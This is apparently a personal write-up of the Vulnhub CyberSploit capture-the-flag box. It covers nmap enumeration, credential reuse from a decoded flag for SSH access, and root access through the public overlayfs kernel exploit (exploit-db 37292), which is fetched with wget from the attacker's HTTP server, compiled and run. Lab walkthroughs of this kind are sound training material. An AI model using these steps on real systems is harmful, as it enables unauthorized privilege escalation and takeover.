 ```yaml
---
title: Vulnhub - CyberSploit
description: My writeup on CyberSploit box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://i2.wp.com/lifars.com/wp-content/uploads/2020/04/Top-10-most-dangerous-Cyber-Virus-scaled.jpg?fit=2560%2C1500&ssl=1)

Hi all, i really hate this type of boxes, but anyway let's pwn it!

You can find the machine there > [CyberSploit](https://www.vulnhub.com/entry/cybersploit-1,506/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.7
$ cybersploit nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 12:47 EEST
Nmap scan report for 192.168.1.7
Host is up (0.0013s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
MAC Address: 00:0C:29:3A:64:E3 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If we check page source code we can see this comment: `<!-------------username:itsskv--------------------->` Probably a system user. Then i always check `/robots.txt` there, a base64 string exists let's decode it.

```
$ echo R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9 | base64 -d
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

After this i tried ton of stuff, brute force with custom wordlist with `cewl`, custom wordlist with `john`, brute force with `rockyou.txt` nothing. Then i had a crazy idea to try `cybersploit{youtube.com/c/cybersploit}` as password and it worked. LOL

```
$ ssh itsskv@$ip
itsskv@192.168.1.7's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

332 packages can be updated.
273 updates are security updates.

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

Last login: Fri Jul 10 15:11:03 2020 from 0xatom.zte.com.cn
itsskv@cybersploit-CTF:~$ 
```

The second flag:

```
itsskv@cybersploit-CTF:~$ cat flag2.txt | perl -lape '$_=pack"(B8)*",@F'
good work !
flag2: cybersploit{https:t.me/cybersploit1}
```

Now privesc to root, is kernel exploit. Let's check kernel version:

```
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
itsskv@cybersploit-CTF:~$ uname -r
3.13.0-32-generic
```

Seems really old, let's search for possible exploits.

```
searchsploit 3.13.0
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                                   | linux/local/37292.c
```

Seems good, let's mirror it and transfer it to target box.

```
$ searchsploit -m linux/local/37292.c
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
File Type: C source, ASCII text, with very long lines, with CRLF line terminators

Copied to: /root/Documents/vulnhub/cybersploit/37292.c

$ cybersploit python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now let's wget it to target box and compile it.

```
itsskv@cybersploit-CTF:~$ cd /tmp
itsskv@cybersploit-CTF:/tmp$ wget -q 192.168.1.16/37292.c
itsskv@cybersploit-CTF:/tmp$ gcc 37292.c -o r00t; chmod +x r00t
itsskv@cybersploit-CTF:/tmp$ ./r00t
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
```

Let's read the final flag:

```
# cat finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```

Big meme box.
